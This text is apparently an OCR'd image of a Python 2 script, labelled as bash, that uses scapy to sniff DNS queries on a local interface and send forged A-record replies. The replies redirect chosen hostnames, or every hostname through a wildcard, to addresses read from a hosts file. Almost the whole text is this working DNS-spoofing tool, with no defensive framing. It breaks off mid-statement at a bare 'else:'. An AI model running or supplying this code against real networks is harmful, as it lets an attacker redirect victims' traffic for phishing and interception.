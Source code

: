 ```bash
 
dev = "eth0"
filter = "udp port 53"
file = None
dns_map = {}
 
def handle_packet(packet):
    ip = packet.getlayer(scapy.IP)
    udp = packet.getlayer(scapy.UDP)
    dns = packet.getlayer(scapy.DNS)
 
    # standard (a record) dns query
    if dns.qr == 0 and dns.opcode == 0:
        queried_host = dns.qd.qname[:-1]
        resolved_ip = None
 
        if dns_map.get(queried_host):
            resolved_ip = dns_map.get(queried_host)
        elif dns_map.get('*'):
            resolved_ip = dns_map.get('*')
         
        if resolved_ip:
            dns_answer = scapy.DNSRR(rrname=queried_host + '.',
                                     ttl = 330,
                                     type="A",
                                     rclass="IN",
                                     rdata=resolved_ip)
            dns_reply = scapy.IP(src=ip.dst, dst=ip.src) / \
                    scapy.UDP(sport=udp.dport,dport=udp.sport) / \
                    scapy.DNS(
                        id = dns.id,
                        qr = 1,
                        aa = 0,
                        rcode = 0,
                        qd = dns.qd,
                        an = dns_answer
                    )
            print "Send %s has %s to %s" % (queried_host,resolved_ip,ip.src)
            scapy.send(dns_reply, iface=dev)
 
def usage():
    print sys.argv[0] + ' -f <hosts-file>  -i <dev>'
    sys.exit(1)
 
def parse_host_file(file):
    for line in open(file):
        line  = line.rstrip('\n')
 
        if line:
            (ip, host) = line.split()
            dns_map[host] = ip
try:
    cmd_opts = 'f:i:'
    opts, args = getopt.getopt(sys.argv[1:], cmd_opts)
except getopt.GetoptError:
    usage()
 
for opt in opts:
    if opt[0] == '-i':
        dev = opt[1]
    elif opt[0] == '-f':
        file = opt[1]
    else:
```